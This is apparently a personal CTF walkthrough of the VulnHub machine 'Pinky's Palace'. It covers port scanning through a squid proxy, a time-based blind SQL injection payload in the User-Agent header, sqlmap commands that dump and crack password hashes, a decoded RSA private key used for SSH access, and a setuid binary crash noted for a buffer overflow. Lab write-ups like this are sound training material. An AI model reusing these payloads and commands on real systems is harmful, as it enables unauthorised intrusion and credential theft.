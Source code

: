     VulnHub : Pinky's palace



192.168.1.41

# nmap: nmap --proxy 192.168.1.41 -p-

8080: nginx / 403 all requests
31337: HTTP proxy squid
64666: openssh 7.4p1 

# squid


# openssh 7.4p1
Vuln: user enum
Exploit ssh : https://www.exploit-db.com/exploits/45233
Valid users:
backup
bin 
daemon
games
gnats
irc
list
lp
mail
man
mysql
news
nobody
proxy
root
sshd
sync
sys
uucp
www-data

Testé avec 20 passwords (https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt)
 --> RAS



# Using HTTP proxy squid as proxy

script bash avec curl --proxy :
8080: nginx : HTTP File Server
3306 : mysql

A tester: nmap --proxy 192.168.1.41:31337
localhost
111/tcp   open  tcpwrapped
8080/tcp  open  tcpwrapped
41017/tcp open  tcpwrapped


#8080

 curl -x http://192.168.1.41:31337
 http://127.0.0.1:8080
<html>        <head>                <title>Pinky's HTTP File Server</title>        </head>        <body>
                <center><h1>Pinky's HTTP File Server</h1></center>
                <center><h3>Under Development!</h3></center>
        </body><style>html{        background: #f74bff;}
</html>

#41017
Erreur avec  curl -x http://192.168.1.41:31337
 http://127.0.0.1:41017

./gobuster ...
dictionnaire : https://raw.githubusercontent.com/daviddias/node-dirbuster/master/lists/directory-list-2.3-medium.txt
gobuster dir -u http://127.0.0.1:8080/
 -p http://192.168.1.41:31337/
 -w /root/directory-list-2.3-medium.txt
=============================================================== 2020/03/02 12:16:13 Starting gobuster =============================================================== /littlesecrets-main (Status: 301)

curl -x http://192.168.1.41:31337
 http://127.0.0.1:8080/littlesecrets-main/
 -v


# 8080 http://127.0.0.1:8080/littlesecrets-main/
  via squid

HTTP/1.1 200 OK
Server: nginx/1.10.3
Date: Mon, 02 Mar 2020 13:06:48 GMT
Content-Type: text/html; charset=UTF-8
X-Cache: MISS from pinkys-palace
X-Cache-Lookup: MISS from pinkys-palace:31337
Via: 1.1 pinkys-palace (squid/3.5.23)
Connection: close

<h3>Incorrect Username or Password</h3>
<!-- Login Attempt Logged -->  =>> Les requetes sontinjectées dans les logs.
On peut manipuler le champs User-Agent:  ' AND (SELECT 7927 FROM (SELECT(SLEEP(5)))hixq) AND 'SHzk'='SHzk ---
pour trouver 


# mysql
Parameter: User-Agent (User-Agent)    
Type: time-based blind    
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)    
Payload: sqlmap/1.4.2#stable (http://sqlmap.org)
' AND (SELECT 7927 FROM (SELECT(SLEEP(5)))hixq) AND 'SHzk'='SHzk ---

sqlmap -u http://127.0.0.1:8080/littlesecrets-main/login.php
 --proxy=http://192.168.1.41:31337/
 --data="user=a&pass=b" --level=5 --risk=3 --dbms=mysql --database pinky_sec_db --dump

[12:54:31] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done) pinky [12:54:53] [INFO] retrieved: f543dbfeaf238729831a321c7a68bee4 [12:56:46] [INFO] retrieved: 1 [12:56:48] [INFO] retrieved: pinkymanage [12:57:24] [INFO] retrieved: d60dffed7cc0d87e1f4a11aa06ca73af [12:59:24] [INFO] retrieved: 2 [12:59:27] [INFO] recognized possible password hashes in column 'pass'

crack : [13:03:00] [INFO] cracked password '3pinkysaf33pinkysaf3' for hash 'd60dffed7cc0d87e1f4a11aa06ca73af'






# ssh

ssh -p 64666 pinkymanage@192.168.1.41 
pinkymanage@192.168.1.41's password:       <<<  3pinkysaf33pinkysaf3

Linux pinkys-palace 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64



find / -user pinkymanage  2>/dev/null

ls -alR /var/www

/var/www$ cat ./html/littlesecrets-main/ultrasecretadminf1l35/.ultrasecret 
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFcEFJQkFBS0NBUUVBMTZmeEwzLyto
L0lMVFpld2t2ZWtoSVExeWswb0xJK3kzTjRBSXRraGV6MTFJaGE4CkhjN0tPeC9MOWcyamQzSDhk
R1BVZktLcjlzZXF0Zzk3WktBOTVTL3NiNHczUXRsMUFCdS9wVktaQmJHR3NIRy8KeUl2R0VQS1Mr
QlNaNHN0TVc3SG54N2NpTXVod2Nad0xxWm1zeVN1bUVDVHVlUXN3TlBibElUbHJxb2xwWUY4eApl
NDdFbDlwSHdld05XY0lybXFyYXhDSDVUQzdVaGpnR2FRd21XM3FIeXJTcXAvaksvY3RiMVpwblB2
K0RDODMzCnUvVHlqbTZ6OFJhRFpHL2dSQklyTUduTmJnNHBaRmh0Z2JHVk9mN2ZlR3ZCRlI4QmlU
KzdWRmZPN3lFdnlCeDkKZ3hyeVN4dTJaMGFPTThRUjZNR2FETWpZVW5COWFUWXV3OEdQNHdJREFR
QUJBb0lCQUE2aUg3U0lhOTRQcDRLeApXMUx0cU9VeEQzRlZ3UGNkSFJidG5YYS80d3k0dzl6M1Mv
WjkxSzBrWURPbkEwT1VvWHZJVmwvS3JmNkYxK2lZCnJsZktvOGlNY3UreXhRRXRQa291bDllQS9r
OHJsNmNiWU5jYjNPbkRmQU9IYWxYQVU4TVpGRkF4OWdrY1NwejYKNkxPdWNOSUp1eS8zUVpOSEZo
TlIrWVJDb0RLbkZuRUlMeFlMNVd6MnFwdFdNWUR1d3RtR3pPOTY4WWJMck9WMQpva1dONmdNaUVp
NXFwckJoNWE4d0JSUVZhQnJMWVdnOFdlWGZXZmtHektveEtQRkt6aEk1ajQvRWt4TERKcXQzCkxB
N0pSeG1Gbjc3L21idmFEVzhXWlgwZk9jUzh1Z3lSQkVOMFZwZG5GNmtsNnRmT1hLR2owZ2QrZ0Fp
dzBUVlIKMkNCN1BzRUNnWUVBOElXM1pzS3RiQ2tSQnRGK1ZUQnE0SzQ2czdTaFc5QVo2K2JwYitk
MU5SVDV4UkpHK0RzegpGM2NnNE4rMzluWWc4bUZ3c0Jobi9zemdWQk5XWm91V3JSTnJERXhIMHl1
NkhPSjd6TFdRYXlVaFFKaUlQeHBjCm4vRWVkNlNyY3lTZnpnbW50T2liNGh5R2pGMC93bnRqTWM3
M3h1QVZOdU84QTZXVytoZ1ZIS0VDZ1lFQTVZaVcKSzJ2YlZOQnFFQkNQK3hyQzVkSE9CSUVXdjg5
QkZJbS9Gcy9lc2g4dUU1TG5qMTFlUCsxRVpoMkZLOTJReDlZdgp5MWJNc0FrZitwdEZVSkxjazFN
MjBlZkFhU3ZPaHI1dWFqbnlxQ29mc1NVZktaYWE3blBRb3plcHFNS1hHTW95Ck1FRWVMT3c1NnNK
aFNwMFVkWHlhejlGUUFtdnpTWFVudW8xdCtnTUNnWUVBdWJ4NDJXa0NwU0M5WGtlT3lGaGcKWUdz
TE45VUlPaTlrcFJBbk9seEIzYUQ2RkY0OTRkbE5aaFIvbGtnTTlzMVlPZlJYSWhWbTBaUUNzOHBQ
RVZkQQpIeDE4ci8yRUJhV2h6a1p6bGF5ci9xR29vUXBwUkZtbUozajZyeWZCb21RbzUrSDYyVEE3
bUl1d3Qxb1hMNmM2Ci9hNjNGcVBhbmcyVkZqZmNjL3IrNnFFQ2dZQStBenJmSEZLemhXTkNWOWN1
ZGpwMXNNdENPRVlYS0QxaStSd2gKWTZPODUrT2c4aTJSZEI1RWt5dkprdXdwdjhDZjNPUW93Wmlu
YnErdkcwZ016c0M5Sk54SXRaNHNTK09PVCtDdwozbHNLeCthc0MyVng3UGlLdDh1RWJVTnZEck9Y
eFBqdVJJbU1oWDNZU1EvVUFzQkdSWlhsMDUwVUttb2VUSUtoClNoaU9WUUtCZ1FEc1M0MWltQ3hX
Mm1lNTQxdnR3QWFJcFE1bG81T1Z6RDJBOXRlRVBzVTZGMmg2WDdwV1I2SVgKQTlycExXbWJmeEdn
SjBNVmh4Q2pwZVlnU0M4VXNkTXpOYTJBcGN3T1dRZWtORTRlTHRPN1p2MlNWRHI2Y0lyYwpIY2NF
UCtNR00yZVVmQlBua2FQa2JDUHI3dG5xUGY4ZUpxaVFVa1dWaDJDbll6ZUFIcjVPbUE9PQotLS0t
LUVORCBSU0EgUFJJVkFURSBLRVktLS0tLQo=

on base64 decode

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA16fxL3/+h/ILTZewkvekhIQ1yk0oLI+y3N4AItkhez11Iha8
Hc7KOx/L9g2jd3H8dGPUfKKr9seqtg97ZKA95S/sb4w3Qtl1ABu/pVKZBbGGsHG/
yIvGEPKS+BSZ4stMW7Hnx7ciMuhwcZwLqZmsySumECTueQswNPblITlrqolpYF8x
e47El9pHwewNWcIrmqraxCH5TC7UhjgGaQwmW3qHyrSqp/jK/ctb1ZpnPv+DC833
u/Tyjm6z8RaDZG/gRBIrMGnNbg4pZFhtgbGVOf7feGvBFR8BiT+7VFfO7yEvyBx9
gxrySxu2Z0aOM8QR6MGaDMjYUnB9aTYuw8GP4wIDAQABAoIBAA6iH7SIa94Pp4Kx
W1LtqOUxD3FVwPcdHRbtnXa/4wy4w9z3S/Z91K0kYDOnA0OUoXvIVl/Krf6F1+iY
rlfKo8iMcu+yxQEtPkoul9eA/k8rl6cbYNcb3OnDfAOHalXAU8MZFFAx9gkcSpz6
6LOucNIJuy/3QZNHFhNR+YRCoDKnFnEILxYL5Wz2qptWMYDuwtmGzO968YbLrOV1
okWN6gMiEi5qprBh5a8wBRQVaBrLYWg8WeXfWfkGzKoxKPFKzhI5j4/EkxLDJqt3
LA7JRxmFn77/mbvaDW8WZX0fOcS8ugyRBEN0VpdnF6kl6tfOXKGj0gd+gAiw0TVR
2CB7PsECgYEA8IW3ZsKtbCkRBtF+VTBq4K46s7ShW9AZ6+bpb+d1NRT5xRJG+Dsz
F3cg4N+39nYg8mFwsBhn/szgVBNWZouWrRNrDExH0yu6HOJ7zLWQayUhQJiIPxpc
n/Eed6SrcySfzgmntOib4hyGjF0/wntjMc73xuAVNuO8A6WW+hgVHKECgYEA5YiW
K2vbVNBqEBCP+xrC5dHOBIEWv89BFIm/Fs/esh8uE5Lnj11eP+1EZh2FK92Qx9Yv
y1bMsAkf+ptFUJLck1M20efAaSvOhr5uajnyqCofsSUfKZaa7nPQozepqMKXGMoy
MEEeLOw56sJhSp0UdXyaz9FQAmvzSXUnuo1t+gMCgYEAubx42WkCpSC9XkeOyFhg
YGsLN9UIOi9kpRAnOlxB3aD6FF494dlNZhR/lkgM9s1YOfRXIhVm0ZQCs8pPEVdA
Hx18r/2EBaWhzkZzlayr/qGooQppRFmmJ3j6ryfBomQo5+H62TA7mIuwt1oXL6c6
/a63FqPang2VFjfcc/r+6qECgYA+AzrfHFKzhWNCV9cudjp1sMtCOEYXKD1i+Rwh
Y6O85+Og8i2RdB5EkyvJkuwpv8Cf3OQowZinbq+vG0gMzsC9JNxItZ4sS+OOT+Cw
3lsKx+asC2Vx7PiKt8uEbUNvDrOXxPjuRImMhX3YSQ/UAsBGRZXl050UKmoeTIKh
ShiOVQKBgQDsS41imCxW2me541vtwAaIpQ5lo5OVzD2A9teEPsU6F2h6X7pWR6IX
A9rpLWmbfxGgJ0MVhxCjpeYgSC8UsdMzNa2ApcwOWQekNE4eLtO7Zv2SVDr6cIrc
HccEP+MGM2eUfBPnkaPkbCPr7tnqPf8eJqiQUkWVh2CnYzeAHr5OmA==
-----END RSA PRIVATE KEY-----

ssh -i pinky_rsa pinky@192.168.1.41 -p 64666
Linux pinkys-palace 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb  2 05:54:01 2018 from 172.19.19.2
pinky@pinkys-palace:~$

$ ls -al
total 44
drwx------ 3 pinky pinky 4096 Feb  2  2018 .
drwxr-xr-x 4 root  root  4096 Feb  2  2018 ..
-rwsr-xr-x 1 root  root  8880 Feb  2  2018 adminhelper

 ./adminhelper aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault

to do ... buffer overflow



